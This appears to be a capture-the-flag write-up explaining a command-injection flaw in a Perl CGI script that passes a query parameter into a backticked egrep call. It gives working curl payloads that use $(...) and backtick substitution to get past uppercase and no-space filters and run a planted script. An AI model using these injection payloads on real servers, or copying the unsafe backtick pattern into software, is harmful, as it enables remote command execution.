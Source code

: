 Certainly, here's the adjusted version:

"In this exercise, there is a Perl file in the home directory. The server is listening on localhost:4646 and capturing query parameters x and y.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

It then performs functions t and n:

```perl
sub t {
  $nn = $_[1];                              # assigning param y to "$nn"
  $xx = $_[0];                              # assigning param x to "$xx"
  $xx =~ tr/a-z/A-Z/;                       # tr/ operator translates the first list /a-z/ to the second list /A-Z/ (puts characters in uppercase)
  $xx =~ s/\s.*//;                          # s/ substitute operator replaces /\s.*/ by // (simply removing everything after the first space)
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  # backticks execute `egrep "^$xx" /tmp/xd 2>&1` where ^ means the first match
}
```

The solution found to meet all the requirements is to execute something that:
- Needs to be only in uppercase
- Needs to have no space
- Needs to be the first match

We can write a script with an uppercase name:

```bash
/tmp/SCRIPT
```

Give it as an argument and use the wildcard /* to test every directory from root:

```bash
curl 'http://127.0.0.1:4646?x=/*/SCRIPT'
```

Finally, we need to use command substitution to execute the command /tmp/SCRIPT:

```bash
curl 'http://127.0.0.1:4646?x=$(/*/SCRIPT)'
                    or
curl 'http://127.0.0.1:4646?x=`/*/SCRIPT`'
```